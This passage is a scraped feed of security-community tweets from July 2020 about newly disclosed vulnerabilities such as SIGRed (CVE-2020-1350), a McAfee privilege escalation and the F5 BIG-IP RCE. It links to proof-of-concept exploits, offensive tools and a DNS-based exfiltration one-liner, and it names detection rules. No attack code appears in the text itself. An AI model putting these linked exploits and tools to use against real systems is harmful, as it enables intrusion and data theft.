McAfee Total Protection (MTP) &lt; 16.0.R26 Escalation of Privilege (CVE-2020-7283)

Write-up
https://t.co/NrueV9gD4J

PoC
https://t.co/FsnwbwCUtY

#infosec #pentest #redteam #exploit #lpe
</blockquote>

* https://labs.redyops.com/index.php/2020/07/14/mcafee-total-protection-mtp-16-0-r26-escalation-of-privilege-cve-2020-7283/
* https://github.com/RedyOpsResearchLabs/CVE-2020-7283-McAfee-Total-Protection-MTP-16.0.R26-EoP

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
# hrbrmstr
**https://twitter.com/hrbrmstr/status/1283400078770700289 _at Wed Jul 15 13:56:37 +0000 2020_**
<blockquote>
We've updated our CVE-2020-1350 (DNS Server RCE) blog post with some info on tooling coverage, a note abt an uptick in DNS scanning (w/nod to @GreyNoiseIO) &amp; credited info from @GossiTheDog on how to make your Windows Server DNS a bit more stealthy. https://t.co/YeSGxkfbWJ
</blockquote>

* https://blog.rapid7.com/2020/07/14/windows-dns-server-remote-code-execution-vulnerability-cve-2020-1350-what-you-need-to-know/?update=true

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---
# VDIHacker
**https://twitter.com/VDIHacker/status/1283358134464118784 _at Wed Jul 15 11:09:57 +0000 2020_**
<blockquote>
If you haven’t heard yesterday a Major DNS vulnerability for Windows was found and a patch released. “CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability” its a 10 out of 10 aka very bad. Patch or Mitigate all Windows DNS Servers ASAP! https://t.co/Add2uA3NZv https://t.co/tAaMmnFgTO
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# gweeperx
**https://twitter.com/gweeperx/status/1283331032096411653 _at Wed Jul 15 09:22:15 +0000 2020_**
<blockquote>
CVE-2020-7283:Exploit code and write-up for an Escalation of Privilege affecting McAfee Total Protection (MTP) &lt; 16.0.R26

https://t.co/SCepfWOT0M

#bug #McAfee #0day #exploit #vulnerability #EoP #privesc #RedyOpsLabs #redteam #pentest #cybersecurity #infosec #informationsecurity
</blockquote>

* https://labs.redyops.com/index.php/2020/07/14/mcafee-total-protection-mtp-16-0-r26-escalation-of-privilege-cve-2020-7283/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---
# cyb3rops
**https://twitter.com/cyb3rops/status/1283330388002246657 _at Wed Jul 15 09:19:42 +0000 2020_**
<blockquote>
Sigma rule to detect the exploitation of Windows DNS RCE CVE-2020-1350

- a long shot looking for spawned sub processes of dns.exe (requires parent logging &gt; e.g. Sysmon)
- plz report false positives

https://t.co/pzJni5aCUh https://t.co/qi8g6XvqDm
</blockquote>

* https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2020_1350.yml

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>161</code></td>
<td>Favorites: <code>276</code></td>
</tr></table>

---
# kramse
**https://twitter.com/kramse/status/1283304086553743367 _at Wed Jul 15 07:35:11 +0000 2020_**
<blockquote>
Saying CVE-2020-1350 is not important, since DCs are not on the internet, may not be /enough/ to protect it.
If the networks, or parts are using VXLAN insecurely it may be possible to send DNS packets inside.
Slide from my @WEareTROOPERS https://t.co/UNrPOYZQuQ https://t.co/pnA8awjuRI
</blockquote>

* https://github.com/kramse/security-courses/tree/master/presentations/network/vxlan-troopers19

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>18</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1283280993097523200 _at Wed Jul 15 06:03:25 +0000 2020_**
<blockquote>
Windows Defender CVE-2020-1170 LPE Work Archive  https://t.co/7Q4Eims9k9  #Pentesting #CVE #Windows #CyberSecurity #Infosec https://t.co/xHNQhBF5rL
</blockquote>

* https://gist.github.com/gwillcox-r7/419efc54568ae809eaf47843f058cadb

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>8</code></td>
</tr></table>

---
# PiotrBania
**https://twitter.com/PiotrBania/status/1283278150840061953 _at Wed Jul 15 05:52:07 +0000 2020_**
<blockquote>
Some of my recent bugs: Hyper-V RemoteFX vGPU Remote Code Execution Vulnerability (CVE-2020-1032, CVE-2020-1036, CVE-2020-1040, CVE-2020-1041, CVE-2020-1042, CVE-2020-1043) - https://t.co/r9pRu5ssQH   https://t.co/IR14JuSpYp
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/releasenotedetail/2020-Jul
* https://blog.talosintelligence.com/2020/07/vuln-spotlight-intel-amd-microsoft-july-2020.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>248</code></td>
</tr></table>

---
# nnwakelam
**https://twitter.com/nnwakelam/status/1283178986185490432 _at Tue Jul 14 23:18:05 +0000 2020_**
<blockquote>
While everyone is talking about the DNS bug that just dropped I want a PoC on CVE-2020-6287. 10.0 CVSS SAP RCE? Sounds delicious.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---
# CyberRaiju
**https://twitter.com/CyberRaiju/status/1283158591843663872 _at Tue Jul 14 21:57:02 +0000 2020_**
<blockquote>
CVE-2020-1350: Critical wormable RCE vulnerability rated with a CVSS of 10 in Windows DNS Server. You may want to patch this ASAP or implement the mitigation. 

MSRC Blog:
https://t.co/yRclM8eGm5

Advisory:
https://t.co/OEvqWjmhgU

Guidance:
https://t.co/Smj1iQnfPh https://t.co/GdFgYmF7kC
</blockquote>

* https://msrc-blog.microsoft.com/2020/07/14/july-2020-security-update-cve-2020-1350-vulnerability-in-windows-domain-name-system-dns-server/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://support.microsoft.com/en-us/help/4569509/windows-dns-server-remote-code-execution-vulnerability

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---
# blueteamblog
**https://twitter.com/blueteamblog/status/1283135082514046977 _at Tue Jul 14 20:23:37 +0000 2020_**
<blockquote>
This is so, so bad.
CVE-2020-1350 with CVSS of 10 named #SIGRed. Wormable RCE vulnerability in Windows DNS Server affecting all versions of Windows server running the DNS role. https://t.co/xYTzi72hF5

Exploit released already - https://t.co/9qphFRaqBR 

#infosec #cybersecurity
</blockquote>

* https://msrc-blog.microsoft.com/2020/07/14/july-2020-security-update-cve-2020-1350-vulnerability-in-windows-domain-name-system-dns-server/
* https://github.com/ZephrFish/CVE-2020-1350

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---
# RandomDhiraj
**https://twitter.com/RandomDhiraj/status/1283127822870024192 _at Tue Jul 14 19:54:46 +0000 2020_**
<blockquote>
One of my MS Office vulnerability was patched in July.

CVE-2020-1458 | Microsoft Office Remote Code Execution Vulnerability
https://t.co/xCeVITvjDT
#infosec
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1458

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---
# ducnt_
**https://twitter.com/ducnt_/status/1283120193405718530 _at Tue Jul 14 19:24:27 +0000 2020_**
<blockquote>
Just stumbleupon with a RCE PoC of CVE-2020-6287 SAP NetWeaver AS JAVA. Kudos to @Queseguridad with an awesome work 🍻. #bugbountytip https://t.co/K7ACNu8z4B
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# antoniosanzalc
**https://twitter.com/antoniosanzalc/status/1283118272578236416 _at Tue Jul 14 19:16:50 +0000 2020_**
<blockquote>
Vuln. crítica en los DNS de Windows, CVE-2020-1350: https://t.co/hKlaHJM02T CVSS 10.0 (máximo). RCE wormable, con el agravante de que el 99% d los DNS son los DC. 1 PC, 1 correo malicioso, 1 exploit ... y Game Over. Aplica esta mitigación YA https://t.co/XMryJtYWBc y parchea ASAP
</blockquote>

* https://support.microsoft.com/es-es/help/4569509/windows-dns-server-remote-code-execution-vulnerability
* https://support.microsoft.com/en-us/help/4569509/windows-dns-server-remote-code-execution-vulnerability

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---
# cherepanov74
**https://twitter.com/cherepanov74/status/1283115324439748608 _at Tue Jul 14 19:05:07 +0000 2020_**
<blockquote>
RT @_CPResearch_: We discovered a 17-year-old vulnerability in all of Windows DNS Servers.
SIGRed (CVE-2020-1350) is a wormable, critical v…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>813</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# sagitz_
**https://twitter.com/sagitz_/status/1283114958612561921 _at Tue Jul 14 19:03:39 +0000 2020_**
<blockquote>
CVE-2020-1350: A cool Windows DNS Server vulnerability (2003-&gt;2019) we found at @_CPResearch_
and got patched today #PatchTuesday
https://t.co/OapPwEYPvp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1283114016999706624 _at Tue Jul 14 18:59:55 +0000 2020_**
<blockquote>
We discovered a 17-year-old vulnerability in all of Windows DNS Servers.
SIGRed (CVE-2020-1350) is a wormable, critical vulnerability that can be used to achieve full Domain Administrator privileges.
https://t.co/giebs7WIhp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>60</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>813</code></td>
<td>Favorites: <code>1258</code></td>
</tr></table>

---
# omriher
**https://twitter.com/omriher/status/1283113889270509570 _at Tue Jul 14 18:59:24 +0000 2020_**
<blockquote>
We just disclosed SIGRed (CVE-2020-1350): Critical Vulnerability in all Windows DNS Servers (by @sagitz_).

Bonus: can also be triggered using the browser through a malicious link. #SIGRed
https://t.co/MMnjPwIUAp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>40</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>278</code></td>
<td>Favorites: <code>440</code></td>
</tr></table>

---
# USCERT_gov
**https://twitter.com/USCERT_gov/status/1283107131596722176 _at Tue Jul 14 18:32:33 +0000 2020_**
<blockquote>
Microsoft has released an update addressing a “wormable” RCE vulnerability, CVE-2020-1350, in Windows DNS Server. Update asap! https://t.co/yjvpIgZbA3 #Cybersecurity #InfoSec
</blockquote>

* https://us-cert.cisa.gov/ncas/current-activity/2020/07/14/microsoft-addresses-wormable-rce-vulnerability-windows-dns-server#Cyber

<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>23</code></td>
<td>Retweets: <code>526</code></td>
<td>Favorites: <code>668</code></td>
</tr></table>

---
# jarsnah12
**https://twitter.com/jarsnah12/status/1283099208946462720 _at Tue Jul 14 18:01:04 +0000 2020_**
<blockquote>
CVE-2020-1350 https://t.co/rAIOfxMSQb
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>27</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>690</code></td>
<td>Favorites: <code>2382</code></td>
</tr></table>

---
# filip_woj
**https://twitter.com/filip_woj/status/1283091006070693893 _at Tue Jul 14 17:28:29 +0000 2020_**
<blockquote>
Microsoft Security Advisory CVE-2020-1147 | .NET Core Remote Code Execution Vulnerability https://t.co/2DbcKiO0Q5
</blockquote>

* https://github.com/dotnet/announcements/issues/159

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---
# coreclrissues
**https://twitter.com/coreclrissues/status/1283089278755639297 _at Tue Jul 14 17:21:37 +0000 2020_**
<blockquote>
Microsoft Security Advisory CVE-2020-1147 | .NET Core Remote Code Execution Vulnerability
dotnet/runtime #39296 https://t.co/W2Ti9YkMLF
</blockquote>

* https://github.com/dotnet/runtime/issues/39296

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1283087717174214664 _at Tue Jul 14 17:15:25 +0000 2020_**
<blockquote>
Stay tuned for our technical publication regarding #SIGRed (CVE-2020-1350) at 12 (PST) - Critical vulnerability in Windows DNS
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1283087444015935489 _at Tue Jul 14 17:14:19 +0000 2020_**
<blockquote>
WARNING 🔥 CVE-2020-1350 (CVSS 10)

A critical 17-year-old 'wormable' RCE #vulnerability affects Windows DNS Servers (2013 to 2019 editions) that could let unauthenticated hackers gain 'Domain Admin' privileges on the targeted servers.

Details — https://t.co/Qoode1dizp

#infosec https://t.co/MWddwPytbT
</blockquote>

* https://thehackernews.com/2020/07/windows-dns-server-hacking.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>59</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>605</code></td>
<td>Favorites: <code>794</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1282927157006622720 _at Tue Jul 14 06:37:24 +0000 2020_**
<blockquote>
Windows Defender CVE-2020-1170 LPE Work Archive · GitHub - https://t.co/RPiiGF1kFU
</blockquote>

* https://gist.github.com/gwillcox-r7/419efc54568ae809eaf47843f058cadb

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1282403888658673664 _at Sun Jul 12 19:58:07 +0000 2020_**
<blockquote>
Understanding the root cause of F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 https://t.co/BnyJaPt2Rl
</blockquote>

* https://research.nccgroup.com/2020/07/12/understanding-the-root-cause-of-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---
# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1282392029008404482 _at Sun Jul 12 19:11:00 +0000 2020_**
<blockquote>
Understanding the root cause of F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 - spoiler: there will be more of this class to be found elsewhere - https://t.co/JXmJEZ2DYp https://t.co/IXNKtVHFWP
</blockquote>

* https://research.nccgroup.com/2020/07/12/understanding-the-root-cause-of-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1282308572144009217 _at Sun Jul 12 13:39:22 +0000 2020_**
<blockquote>
httpdump : Capture and parse http traffics : https://t.co/3DZb0fvz8c

dnsniff :  a collection of tools for network auditing and penetration testing : https://t.co/ku83C1d358 cc @dugsong 

Netenum : A tool to passively discover active hosts on a network : https://t.co/0FMnJ9iACu
</blockquote>

* https://github.com/hsiafan/httpdump
* https://www.monkey.org/~dugsong/dsniff/
* https://github.com/wintrmvte/Netenum

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>281</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1282286012207468545 _at Sun Jul 12 12:09:43 +0000 2020_**
<blockquote>
ARMRef : ARM Assembly Reference Manual for iOS, iPadOS, and macOS : https://t.co/EoOIeKA0eB credits @EvilPenguin_
</blockquote>

* https://github.com/evilpenguin/ARMRef

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>121</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1282261016559136770 _at Sun Jul 12 10:30:24 +0000 2020_**
<blockquote>
RT @ArielKoren_: Found a Remote Code Execution #Exploit on #Microsoft #Office (CVE-2020-1321) during my consulting services.

The vulnerabi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>214</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# FiloSottile
**https://twitter.com/FiloSottile/status/1282109404318490626 _at Sun Jul 12 00:27:57 +0000 2020_**
<blockquote>
Currently watching a Zig livestream that involves proper Italian pasta and coffee preparation, and I feel like the Go community is getting put to shame.

https://t.co/SmKi11HtWX
https://t.co/73q03cbqLU
</blockquote>

* https://twitch.tv/kristoff_it
* https://github.com/sponsors/ziglang

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---
# ahakcil
**https://twitter.com/ahakcil/status/1282040119961190402 _at Sat Jul 11 19:52:38 +0000 2020_**
<blockquote>
Struggling with a blind RCE on windows?

Here is a oneliner to execute a command, and send its output back from 53/udp.

A lot of firewalls allow 53/udp because a lot of stuff depends on DNS.

https://t.co/yXbm9pcLoZ
</blockquote>

* https://gist.github.com/FlameOfIgnis/7a6121e4e75e34aa54cd1b2272a59683

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>261</code></td>
</tr></table>

---
# ArielKoren_
**https://twitter.com/ArielKoren_/status/1281982660152352769 _at Sat Jul 11 16:04:18 +0000 2020_**
<blockquote>
Found a Remote Code Execution #Exploit on #Microsoft #Office (CVE-2020-1321) during my consulting services.

The vulnerability is triggered while parsing 3D objects and potentially affects a wide variety of Microsoft products.

https://t.co/jsSOzaVYxI

#RCE #CVE
</blockquote>

* https://www.mimecast.com/blog/2020/07/mimecast-discovers-3d-office-exploiter-a-remote-code-execution-vulnerability-in-microsoft-office/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>213</code></td>
<td>Favorites: <code>454</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1281623377199783937 _at Fri Jul 10 16:16:39 +0000 2020_**
<blockquote>
RT @RandomDhiraj: A quick NMAP script for CVE-2020-5902.
https://t.co/ozd9HcFoSY
#infosec https://t.co/tGaYUtGcxz
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>414</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1281595749294239745 _at Fri Jul 10 14:26:52 +0000 2020_**
<blockquote>
net-creds : Sniffs sensitive data from interface or pcap : https://t.co/RujAKKFy7h credits @DanHMcInerney https://t.co/AoVYZN5y8J
</blockquote>

* https://github.com/DanMcInerney/net-creds

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1281580793492500482 _at Fri Jul 10 13:27:26 +0000 2020_**
<blockquote>
Autosploit : A Fully Automated Framework for Evaluating
the Exploitability of Security Vulnerabilities : https://t.co/TuUzBWJtEJ (pdf) 

AutoSploit : Automated Mass Exploiter : https://t.co/lkvHYsN8xs
</blockquote>

* https://arxiv.org/pdf/2007.00059.pdf
* https://github.com/NullArray/AutoSploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1281483341905059844 _at Fri Jul 10 07:00:12 +0000 2020_**
<blockquote>
Important — Instead of applying a patch, if you're relying on mitigation provided for F5 BIG-IP RCE #vulnerability (CVE-2020-5902), you're still at risk of getting hacked.

Researchers (@CharlesDardaman , @0xm1rch  @TeamAresSec) discover a bypass.

https://t.co/Q5Cfey1sp6
</blockquote>

* https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1281248760320974850 _at Thu Jul 09 15:28:03 +0000 2020_**
<blockquote>
CVE-2020-1300 - Remote code execution via #Windows CAB files. Our colleagues from Trend Micro Research bring all the details about this recently patched bug. Read them at https://t.co/BBogMCZo0r
</blockquote>

* https://bit.ly/2ZXbQjm

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>186</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1281224055513911299 _at Thu Jul 09 13:49:53 +0000 2020_**
<blockquote>
SNOWCRASH : a polyglot payload generator : https://t.co/v4fisCFdsL https://t.co/HTCdwN39WM
</blockquote>

* https://github.com/wintrmvte/SNOWCRASH

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---
# threatintelctr
**https://twitter.com/threatintelctr/status/1281222174431342592 _at Thu Jul 09 13:42:24 +0000 2020_**
<blockquote>
🚨 NEW: CVE-2020-9377 🚨 ** UNSUPPORTED WHEN ASSIGNED ** D-Link DIR-610 devices allow Remote Command Execution via the cmd parameter to command.php. NOTE: This vulnerability only affects products that are no longer ... (click for more)  https://t.co/KUM2YhH1Ky
</blockquote>

* https://gist.github.com/GouveaHeitor/131557f9de7d571f118f59805df852dc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# LukasStefanko
**https://twitter.com/LukasStefanko/status/1281186602975465472 _at Thu Jul 09 11:21:04 +0000 2020_**
<blockquote>
Bug chaining in Android MX Player to achieve code execution

1) receive shared data file from other device (wireless)
2) data file will exploit path traversal vulnerability
3) RCE of received file

PoC: https://t.co/nssFuah6BK 
https://t.co/aOOmGxzNmu via @CE2Wells #BugBounty https://t.co/6VuDf38nbm
</blockquote>

* https://github.com/tenable/poc/tree/master/MXPlayer
* https://medium.com/tenable-techblog/android-mx-player-path-traversal-to-code-execution-9134b623eb34

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---
# jedisct1
**https://twitter.com/jedisct1/status/1281168794061344768 _at Thu Jul 09 10:10:18 +0000 2020_**
<blockquote>
RT @IanColdwater: New K8s security advisory: CVE-2020-8558. 

A security issue in kube-proxy allows adjacent hosts to reach TCP &amp; UDP servi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1280939235055296513 _at Wed Jul 08 18:58:06 +0000 2020_**
<blockquote>
An exploitation case study of CVE-2020-1062, a use-after-free vulnerability in IE11 https://t.co/a13K4NcCyG
</blockquote>

* https://www.accenture.com/us-en/blogs/cyber-defense/exploitation-case-study-cve-2020-1062-vulnerability-in-ie11

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# IanColdwater
**https://twitter.com/IanColdwater/status/1280900915092951042 _at Wed Jul 08 16:25:50 +0000 2020_**
<blockquote>
New K8s security advisory: CVE-2020-8558. 

A security issue in kube-proxy allows adjacent hosts to reach TCP &amp; UDP services bound to 127.0.0.1 running on the node or in the node's network namespace. Severity: high if insecure port enabled, otherwise med.

https://t.co/dC4Bgwp0ah
</blockquote>

* https://github.com/kubernetes/kubernetes/issues/92315

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>183</code></td>
</tr></table>

---
# ehakkus
**https://twitter.com/ehakkus/status/1280750903167979523 _at Wed Jul 08 06:29:45 +0000 2020_**
<blockquote>
(CVE-2020-14930) #metasploit auxiliary module is ready for authentication bypass #0day which I discovered in CTROMS port management application. You can access #exploit and description from my personal blog. https://t.co/7rOJKtFuz5 (EDB-ID: 48196) https://t.co/Ld2IXEFsWJ
</blockquote>

* https://bit.ly/31QmcnU

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---
# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1280643826009456640 _at Tue Jul 07 23:24:15 +0000 2020_**
<blockquote>
👀

&gt; F5 BIG-IP RCE CVE-2020-5902 exploit
&gt; Detected several minutes ago
&gt; Exploit slung exclusively over TLS
&gt; Source IP in M247, known APT favorite
&gt; IP is also running a Mullvad VPN gateway, via https://t.co/LHK7DddYEl

HMMmmm

https://t.co/TL6le6dLKz https://t.co/krBm6koRN8
</blockquote>

* http://spur.us
* https://viz.greynoise.io/ip/45.152.183.30

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---
# Andrew___Morris
**https://twitter.com/Andrew___Morris/status/1280619226454163458 _at Tue Jul 07 21:46:30 +0000 2020_**
<blockquote>
Someone in Namecheap already using the Metasploit module to exploit the F5 Big-IP CVE-2020-5902 RCE vuln. 

This module was merged to master in Metasploit GitHub...... four hours ago

